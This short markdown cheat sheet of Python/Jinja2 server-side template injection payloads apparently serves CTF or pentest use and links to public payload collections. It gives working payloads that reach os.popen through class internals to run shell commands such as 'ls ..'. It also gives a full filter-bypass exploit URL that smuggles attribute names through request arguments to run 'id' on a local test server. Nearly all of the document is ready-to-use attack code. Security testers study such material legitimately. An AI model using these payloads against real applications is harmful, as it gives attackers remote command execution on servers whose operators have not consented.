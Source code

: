 # SSTI Payloads

### Link: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md
### Bypasses: https://0day.work/jinja2-template-injection-filter-bypasses/

```py
${''.__class__.__mro__[1].__subclasses__()}

{{''.__class__.__mro__[1].__subclasses__()[280].__init__.__globals__['__builtins__']['__import__']('os').popen('ls ..').read()}}
```

# Filter bypasses:
1. Filter: . [ ] {{ }} x \
```py
http://0.0.0.0:3000/home?token=<>&directory={%with output=((((request|attr('application'))|attr(request|attr("args")|attr("get")('globals')))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('builtins'))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('import'))('os')|attr('popen')(request|attr("args")|attr("get")('cmd'))|attr('read')()%}{%print(output)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=id
```